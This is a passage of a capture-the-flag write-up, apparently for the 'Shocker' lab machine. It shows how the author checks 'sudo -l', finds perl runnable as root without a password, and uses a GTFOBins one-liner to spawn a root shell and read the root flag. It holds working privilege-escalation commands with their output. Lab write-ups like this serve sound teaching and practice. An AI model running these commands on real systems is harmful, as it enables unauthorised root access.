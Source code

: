 
# Privilege Escalation
 
To check what permissions I have as a `sudo` user I ran `sudo -l` command

```
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

I can run perl as root!. If I use perl to send a reverse shell back to my machine it will get executed with the same privileges that perl is running in. So if I run perl with sudo privileges, I’ll get back a reverse shell with root privileges.

I used [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo) to escalate my privileges

```
perl -e 'exec "/bin/sh";'
```

Execute the code and we have root!

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
whoami
root
cat /root/root.txt
************

```
